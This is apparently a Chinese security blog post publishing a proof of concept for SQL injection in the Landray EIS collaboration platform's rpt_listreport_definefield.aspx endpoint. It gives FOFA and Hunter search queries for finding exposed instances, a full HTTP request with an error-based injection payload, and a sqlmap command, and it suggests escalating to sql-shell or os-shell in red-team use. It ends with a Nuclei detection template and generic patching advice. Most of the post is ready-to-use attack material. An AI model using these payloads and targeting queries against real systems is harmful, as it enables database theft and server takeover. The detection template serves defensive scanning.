 #  【漏洞新情报 | 附POC】蓝凌EIS智慧协同平台SQL注入   
原创 4Zen  划水但不摆烂   2024-03-04 01:37  
  
## 免责声明   
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
## 产品简介   
  
蓝凌EIS智慧协同平台现集合了非常丰富的模块，满足组织企业在知识，协同，项目管理系统建设等需求。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwjgI5E86gibCMJrzbVNyzA2GT8fmFM76Fcdia88zj8FLm3sU2TEtOMF53lqQ6NQMGzlxm6qdvd3XVg/640?wx_fmt=png&from=appmsg "")  
## 漏洞描述   
  
蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。  
## 网络测绘   
  
favicon图标特征  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwjgI5E86gibCMJrzbVNyzA2qvVXcR82v2qxyrWqw3RGofJgibjrjZPv7a1HTFmwEcMjGwP8WdFic58g/640?wx_fmt=png&from=appmsg "")  
  
FOFA网络测绘搜索  
```
app="Landray-EIS智慧协同平台" || body="jquery.landray.common.js" || icon_hash="953405444"

```  
  
鹰图网络测绘搜索  
```
app.name="Landray 蓝凌 EIS智慧协同平台"

```  
## 漏洞复现   
  
POC：  
```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 11.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1

```  
```
Payload：/SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+
原始格式：/SM/rpt_listreport_definefield.aspx?ID=2 and 1=@@version--+

```  
  
利用Payload进行报错验证，通过回显页面可验证问题的存在与否  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwjgI5E86gibCMJrzbVNyzA27S9lEvwLa8Of4EJcGRB6giaicHeeibXHibEt4E4gFCYwpoOtC7g9XocC9A/640?wx_fmt=png&from=appmsg "")  
  
在红队场景下可以直接利用sqlmap进行sql-shell或os-shell进行一把梭获取更高权限分：  
```
python sqlmap.py -u "http://127.0.0.1/SM/rpt_listreport_definefield.aspx?ID=2" --is-dba

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwjgI5E86gibCMJrzbVNyzA2dZOT9e0r5Ir7rYSEbrsYU1XlUsGqm9AwpESEMcRNKaDInNhf751uZA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwjgI5E86gibCMJrzbVNyzA2T42VKB3qQmso788dqDEzicDjficSgcmYQ8UiaR6GmXxKjT9ibVcFpUUkSg/640?wx_fmt=png&from=appmsg "")  
  
Nuclei检测脚本：  
```
id: Landray-EIS-rpt_listreport_definefield-sqli

info:
  name: 蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口SQL注入漏洞
  author: 4Zen
  severity: high

http:
  - method: GET
    path:
      - "{{BaseURL}}/SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "Microsoft"

```  
## 修复方案   
  
1、联系供应商获取最优解决方案。2、更新到最新版本或及时到官网获取相应补丁进行漏洞修补。  
  
  
